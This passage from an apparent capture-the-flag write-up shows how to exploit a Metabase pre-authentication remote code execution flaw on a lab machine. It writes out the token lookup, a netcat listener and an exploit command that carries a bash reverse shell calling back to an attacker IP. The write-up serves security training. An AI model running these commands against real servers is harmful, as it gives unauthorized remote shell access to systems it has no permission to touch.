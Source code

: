 ### 2.8 -  Which user is the Metabase application running as?

\
To answer for this question we need to exploit vulnerabilities with python script on github and web app parameters

{% embed url="https://github.com/m3m0o/metabase-pre-auth-rce-poc" %}

Github repo suggests following usage:

The script needs the **target URL**, the **setup token** and a **command** that will be executed. The setup token can be obtained through the `/api/session/properties` endpoint. Copy the value of the `setup-token` key.

The **command** will be executed on the target machine with the intention of obtaining a **reverse shell**. You can find different options in [RevShells](https://revshells.com/). Having the **setup-token** value and the **command** that will be executed, you can run the script with the following command:

`python3 main.py -u http://[targeturl] -t [setup-token] -c "[command]"`

All right, then we make me in listening mode on port 1339 on attacker machine using netcat

```
nc -nvlp 1339
```

<figure><img src="../.gitbook/assets/image (308).png" alt=""><figcaption></figcaption></figure>

we save exploit locally and run following command

```
python3 exploit.py -t "249fa03d-fd94-4d5b-b94f-b4ebf3df681f" -u "http://data.analytical.htb" -c "bash -i >& /dev/tcp/10.10.14.6/1339 0>&1"
```

and we're in
